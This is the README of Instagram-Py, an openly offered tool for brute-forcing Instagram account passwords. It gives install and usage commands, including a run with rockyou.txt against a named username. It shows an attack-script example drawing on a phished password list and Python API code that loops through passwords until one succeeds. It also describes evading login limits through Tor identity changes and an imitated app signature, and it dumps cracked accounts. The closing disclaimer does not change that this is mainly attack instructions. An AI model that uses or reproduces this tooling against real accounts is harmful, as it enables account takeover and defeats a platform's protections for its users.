 .. image:: https://raw.githubusercontent.com/antony-jr/instagram-py/master/.img/poster.png



.. raw:: html
 
 <blockquote>:briefcase: The Official Instagram-Py repo. A professional tool to :8ball: brute force instagram :camera_flash: accounts with less resource :gift: as possible , Written in Python :snake: and made with :heart: -- Antony Jr.</blockquote>
    
 
 <h1 align="center" > Instagram-Py </h1>

 <p align=center>
 <a href="https://travis-ci.org/antony-jr/instagram-py">
 <img src="https://travis-ci.org/antony-jr/instagram-py.svg?branch=master" / >
 </a>

 <a href="https://github.com/antony-jr/instagram-py/issues">
 <img src="https://img.shields.io/github/issues/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/network">
 <img src="https://img.shields.io/github/forks/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/stargazers">
 <img src="https://img.shields.io/github/stars/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/blob/master/LICENSE">
 <img src="https://img.shields.io/github/license/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a class="badge-align" href="https://www.codacy.com/app/antony-jr/instagram-py?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=antony-jr/instagram-py&amp;utm_campaign=Badge_Grade"><img src="https://api.codacy.com/project/badge/Grade/352d5096b26e46faaa6b7434ad5afed6"/></a>
 
 </p>

  
  
| This project was started as a **POC** and then evolved into something. I first started this project when a lot of people
| started asking about brute forcing instagram and so I started working on a **Proof-Of-Concept** for brute forcing instagram
| without any password (try) limiting. Another reason to start working on this project was that there was no good tool to do
| this job , Yep! even now if you search through github you cannot find a tool which is good as instagram-py. Since a few people
| liked this tool , I decided to give it a **LTS**. Still there exists some old versions of instagram-py all-over github but
| **this is the official repo**. You can also use **different versions** of **instagram-py** through **pip**. 

| **Why is this slow ?**: I know instagram-py can be really slow , Some similar projects like 
| https://github.com/thelinuxchoice/instashell uses instagram-py's algorithm with multi-thread to really fast up the attack
| but this is a very bad idea! Don't believe me , use that attack to crack a fake account with a password list , enter the
| real password in the password word list at the **14th** , Now use **10** or **18** or **5** threads , The chances are 
| the attack will skip the real password( **most of the time** )( The explanation is big , open issue to know more ).
| Instagram-Py is carefully designed to brute-force instagram so the slowness is on purpose , instagram-py will have
| multi-threading soon!

|
| **Important Note**: You need to understand that **brute force** attacks are not always successful ( or mostly unsuccessful )
| if you use a generic wordlist that is not related to the target and so the attack will be useless,Make sure you use your tries
| carefully. **Please see that I am not a paid hacker and doing so is also illegal** and so please don't contact in the hope to
| get some help. Since I can't help you because I am not that really **skilled** in this stuff myself. 


|
| **Disclaimer**: This tool was created only for a small experiment and to study how brute force attacks work. You are free to
| use this tool with respect to the **MIT License** , and as the license states, the author has nothing to do with the any
| damage caused by this tool , The users are the only one who is responsible ( But I hope you won't do anything serious ).

.. raw:: html

 <br>
 <p align=center>
 <table>
 <tr>
 <th>DOWNLOAD</th>
 <th>INSTALL</th>
 </tr>
 <tr>
 <td>
 <a href="https://github.com/antony-jr/instagram-py/releases/download/continuous/Instagram-Py-continuous-x86_64.AppImage">
 <img src="https://img.shields.io/badge/LINUX_DOWNLOAD-InSTAGRAM--PY%20PORTABLE%20x86__64-brightgreen.svg?style=for-the-badge" />
 </a>
 </td>
 <td>
 <pre>
 $ chmod +x Instagram-Py-continuous-x86_64.AppImage;
 $ ./Instagram-Py-continuous-x86_64.AppImage # Just Use!
 </pre>
 </td>
 </tr>
 </table>
 <br>
 <img src="https://raw.githubusercontent.com/antony-jr/instagram-py/master/.img/preview.gif" / >
 </p>



------
 How?
------

| We use , **tor** to change our ip once blocked for many tries and continue attack.
| Since the official api is not a hacker wants, So we use the **InstagramAPK signature** to stay **anonymous!**
| And we also **save** the **progress** so that even in network interruption we can avoid breaking the computer!


-------
 What?
-------

| **Instagram-Py** is a slick python script to perform  **brute force** attack against **Instagram** ,   
| this script can **bypass** login limiting on wrong passwords ,  so basically it can test **infinite number of passwords**.
| Instagram-Py is **proved** and can test **over 6M** passwords on a single instagram account with **less resource** as possible
| This script mimics the activities of the official **instagram android app** and sends request over **tor** so you are secure ,
| but if your **tor** installation is **misconfigured** then the blame is on you.


------------
 Features
------------

* Ultra Portable

  As of Instagram-Py v2.0.6 , Instagram-Py is also distributed in **AppImages** , If you use
  Instagram-Py bundled in a AppImage , **You do not need to install anything , even tor.**
  Just **download** , **mark it executable** and **enjoy**! 
  Now Instagram-Py is the only (*The best of my knowledge*) hacking tool which is ultra portable that you
  can carry in a thumb drive. ( And use it in **any Linux Distro without installing anything**).
  know more in the installation section.

* Instagram-Py Scripting

  Craft your own python script which will embed into Instagram-Py for Maximum Customization of your
  brute force attack , example: What if you want a message sent to your phone when an account is hacked?

* Resumes Attacks when the same wordlist is used on the same Username
* Dumps successfully cracked accounts.
* Maximum Customization! ( This includes multiple attack vectors! )
* Fast and Clean Code , no ugly selenum drivers! ( Pure Requests )
* Elegant Tor Identity Change with Stem ( Tor's Official Library for Python )


**Depends on**: python3 , tor ,  requests , requests[socks] , stem (*Don't need anything if you use Instagram-Py Portable*)

==============
 Installation
==============

------------------------------------------------------------
Get Instagram-Py with Zero Setup ( Instagram-Py Portable )
------------------------------------------------------------


Just **execute** this **single command** and you will have everything to start using
**Instagram-Py** right-away!
**This Method is only possible for Linux Distro's with 64Bit Architecture** (*Any Linux Distro which is 64 Bit*).
**If you use this method...**

* You **don't** need to install anything in your **linux distro**.
* You **don't** even need **python** and **tor server** installed.
* You **don't** need any type of **configuration**. (*It Just Works!*)


::

 $ sudo wget -O /usr/bin/instagram-py https://git.io/vxKaq; sudo chmod +x /usr/bin/instagram-py
 $ instagram-py # Installed , Easy right ?



**Caution**: Please don't mix up this installation and pip installation as it may give unexpected
output.

You can also download **instagram-py** directly from the release page and save it in a thumb drive
to use it later, Cool right ?


---------------------------------
 Upgrading Instagram-Py with pip
---------------------------------

::

 $ sudo pip3 install instagram-py --upgrade


-------------------------------
 using pip to get Instagram-py
-------------------------------

**Make sure you have got the latest version of pip(>= 9.0 and python(>= 3.6)**

::

 $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
 $ sudo pip3 install requests --upgrade
 $ sudo pip3 install requests[socks]
 $ sudo pip3 install stem
 $ sudo pip3 install instagram-py
 $ instagram-py # installed successfully
 $ # Configuration is Super Important so Lets Create One
 $ instagram-py --create-configuration # follow the steps... 

--------------------------------
    Configuring Instagram-Py
--------------------------------

**As of v2.0.0 Configuration is Simply done by Passing an Argument to Instagram-Py**

::

 $ instagram-py --create-configuration
 $      # OR
 $ instagram-py -cc



**Or if you just want the default settings without the annoying questions then**

::

 $ instagram-py --create-configuration --default-configuration
 $      # OR
 $ instagram-py -cc -dc



--------------------------------------------------
    Configuring Tor server to open control port
--------------------------------------------------

open your **tor configuration** file usually located at **/etc/tor/torrc**


::
 
 $ sudo vim /etc/tor/torrc # open it with your text editor
 

**search** for the file for this **specific section**

::

 ## The port on which Tor will listen for local connections from Tor
 ## controller applications, as documented in control-spec.txt.
 #ControlPort 9051
 
**uncomment** 'ControlPort' by deleting the **#** before 'ControlPort' , **now save the file and restart your tor server**

**now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json** 

=============
    Usage
=============

**Finally** , now you can use instagram-py!

**Instagram-Py Scripting lets you run Custom Python Scripts Inside Instagram-Py!**

**Never Run Instagram-Py with Multiple Instance! , Use Instagram-Py Scripting Instead!**


::

 $ instagram-py -u your_account_username -pl path_to_password_list


**Note**: Without the **-c** optional argument , instagram-py **will not continue the attack**

::

 usage: instagram-py [-h] [--username USERNAME] [--password-list PASSWORD_LIST]
                     [--script SCRIPT] [--inspect-username INSPECT_USERNAME]
                     [--create-configuration] [--default-configuration]
                     [--countinue] [--verbose]
 
 optional arguments:
   -h, --help            show this help message and exit
   --username USERNAME, -u USERNAME
                         username for Instagram account
   --password-list PASSWORD_LIST, -pl PASSWORD_LIST
                         password list file to try with the given username.
   --script SCRIPT, -s SCRIPT
                         Instagram-Py Attack Script.
   --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME
                         Username to inspect in the instagram-py dump.
   --create-configuration, -cc
                         Create a Configuration file for Instagram-Py with
                         ease.
   --default-configuration, -dc
                         noconfirm for Instagram-Py Configuration Creator!
   --continue-attack, -c       Continue the previous attack if found.
   --verbose, -v         Activate Verbose mode. ( Verbose level )

 example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

 Report bug, suggestions and new features at https://github.com/antony-jr/instagram-py



========================
 Instagram-Py Scripting
========================

Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks.
This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

**Witness the power of Instagram-Py Scripting**

::

 #!/usr/bin/instagram-py -s
 # Only Supports Python 3

 import os

 def hacked_an_account(username , password):
    # Use Twilio API to Make a Message to our phone MayBe?
    print("Account Cracked!")
    return True


 print("Initiating Multi Username Attack Script...")

 global_callback = hacked_an_account
 global_password_list = "{}/.exploits/facebook-phished.txt".format(os.path.expanduser('~'))

 usernames = [ # Reserved Variable
   {
   "id" : "instatestgod__",
   "password_list" : "/home/antonyjr/Developer/.exploits/rockyou.txt" , # full path
   "continue" : True, # Optional
   "verbose" : 0 # Optional
    },
   # If you want to simultaniously attack the same account with different wordlist
   # Apparently Saving does not work here if two wordlist are used on a single user!
   # could be later fixed anyways...
   {
   "id" : "instatestgod__",
   # global password list will cover us if password list is not mentioned!
   "continue" : False, # Optional
   "verbose" : 3 # Optional
   }
   # ,
   # {
   # "id" : "even_more_users",
   # "password_list" : "different_passwords.lst",
   # }
 ]



**You Can Always View the Cracked Passwords Using this command!**

::

 $ instagram-py -i instatestgod__
 $ # Displays record if it is cracked in the past!

===========================
 Using Instagram-Py as API
===========================

**Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!**

For some reason you wish not to use my software then you can use my software as a module and embed into your own
software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

**Follow the same installation method mentioned above to install Instagram-Py API.**

This is a simple script to conduct a bructe force attack using instagram-py as a API.

::

 #!/usr/bin/env python3
 '''
   This is the same thing that is in the __init__ file of the command-line
   tool.
 '''
 from InstagramPy.InstagramPyCLI import InstagramPyCLI
 from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
 from InstagramPy.InstagramPyInstance import InstagramPyInstance
 from datetime import datetime
 
 username = "TARGET ACCOUNT USERNAME"
 password = "PASSWORD LIST PATH"

 appInfo = {
    "version"     : "0.0.1",
    "name"        : "Instagram-Py Clone",
    "description" : "Some Module to crack instagram!",
    "author"      : "YourName",
    "company"     : "YourCompany",
    "year"        : "2017",
    "example"     : ""
 }

 cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)
 
 '''
 # USE THIS IF YOU WANT
 cli.PrintHeader()
 cli.PrintDatetime()
 '''
 session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
 session.ReadSaveFile(True) # True to countinue attack if found save file.
 '''
 # USE THIS IF YOU WANT
 cli.PrintMagicCookie(session.magic_cookie)
 '''

 '''
  Defining @param cli = None will make Instagram-Py run silently so you
  can you use your own interface if you like.
  or if you want to use the official interface then declare like this

  instagrampy = InstagramPyInstance(cli = cli , session = session)

 '''

 instagrampy = InstagramPyInstance(cli = None ,session = session)
 while not instagrampy.PasswordFound():
        print('Trying... '+session.CurrentPassword())
        instagrampy.TryPassword()

 if instagrampy.PasswordFound():
        print('Password Found: '+session.CurrentPassword())

 exit(0) 
 


=========
Support
=========

If you think that this project is **cool** then you can give it a :star: or :fork_and_knife: it if you want to improve it with me. I really :heart: stars though!   

.. raw:: html

 <p align="center">
     <a href="https://liberapay.com/antonyjr/donate">
        <img src="https://liberapay.com/assets/widgets/donate.svg">
     </a>
 </p>


If you want to do something that stands out then you can click the **donate** button at the top to make a monthly donation , So   
I will make sure that I stay healthy and keep on to do my work. :briefcase: Supporting me means supporting all of my projects , So   
you are like **Tony Stark** :heart: who backs **Spider-Man**! Thank you for your extra care! :dog:   

You can also tweet about me on twitter , get connected with me here -> https://twitter.com/antonyjr0

Thank You! :smiley_cat:



=============
   License
=============

The MIT License,

Copyright (C) 2018 The Future Shell , Antony Jr.
